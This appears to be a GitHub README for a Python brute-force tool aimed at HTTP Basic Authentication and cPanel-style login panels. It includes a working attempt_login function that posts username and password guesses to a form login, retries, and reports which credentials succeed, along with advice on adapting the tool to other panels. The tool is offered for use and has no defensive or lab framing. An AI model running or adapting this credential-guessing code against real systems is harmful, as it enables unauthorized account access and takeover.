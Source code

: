 ### About 


This brute forcing script is made to target HTTP Basic Authentication login panels, not just cpanel.
The script can only work with panels that respond with a 401 Unauthorized error when incorrect credentials are supplied.
However, you can modify the script to work with other types of login panels, depending on the authentication mechanism they use. 

### Example:

#Form-Based Authentication

```
data = urllib.parse.urlencode({'username': u, 'password': p}).encode()
req = urllib.request.Request(login_url, data=data)
```
### Modification:

```
def attempt_login(self, username, password):
    attempt = 0
    success = False
    login_url = f"http://{self.server}/login"

    while attempt < RETRY_LIMIT and not success and not success_event.is_set():
        try:
            data = urllib.parse.urlencode({'username': username, 'password': password}).encode()
            req = urllib.request.Request(login_url, data=data)

            with urllib.request.urlopen(req) as response:
                if response.getcode() == 200:
                    print(f"SUCCESS: Username: {username} Password: {password}")
                    success_event.set()
                    success = True

        except urllib.error.HTTPError as e:
            print(f"Failed Login - User: {username} Password: {password}")
        except Exception as e:
            print(f"Connection error for {username}:{password} - Retry {attempt + 1}")
        attempt += 1
```

### You can see the help menu by running:

```
python bruteforce.py
```
